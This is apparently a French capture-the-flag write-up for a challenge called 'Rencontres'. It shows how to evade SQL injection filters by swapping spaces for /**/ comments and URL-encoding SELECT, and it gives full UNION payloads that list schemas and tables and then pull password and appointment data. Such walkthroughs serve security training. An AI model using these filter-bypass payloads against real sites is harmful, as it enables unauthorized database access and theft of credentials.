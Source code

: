 # Rencontres

Nous devons ici faire face à certain filtres. Le ```SELECT``` et les espaces ne sont pas autorisé par exemple.
En faisant un peut de recherche on tombe sur le site de [PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters).</br>
Nous trouvons en bas de la page comment faire pour qu'il n'y ai pas d'espaces dans la commande (utilisation de /\*\*/) et remplaçons le ```SELECT``` par ```%53%45%4c%45%43%54```. Ce qui nous donne : ```'/**/UNION/**/%53%45%4c%45%43%54/**/1,2,schema_name/**/from/**/INFORMATION_SCHEMA.SCHEMATA/**/#```</br>
![image](https://user-images.githubusercontent.com/73934639/174613360-b6ba38e9-5bd0-4935-b81b-8233f3474a0b.png)
</br>


On se dirige vers la base de donnée ```RencontreVendeurs``` (```'/**/UNION/**/%53%45%4c%45%43%54/**/1,TABLE_NAME,TABLE_SCHEMA/**/from/**/INFORMATION_SCHEMA.TABLES/**/where/**/table_schema='RencontreVendeurs'#```) : </br>
![image](https://user-images.githubusercontent.com/73934639/174613769-e79bbba4-078a-4c44-97b1-acc8c94fe47a.png)

Nous n'avons plus qu'à récupérer les informations de la table password et de la table date.</br>
Commençons par la table ```password``` (même étaps que pour la partie 2 mais avec le filtres):</br>
![image](https://user-images.githubusercontent.com/73934639/174615601-2d23ce63-41bf-40fe-818d-56ca7516da88.png)
</br>

Il ne nous reste plus que la table ```Rdv``` :</br>
![image](https://user-images.githubusercontent.com/73934639/174616019-ddd40ae8-1a8e-4091-98de-f6efb8abc94e.png)
</br>

Nous avons maintenant tout ce qu'il nous faut.
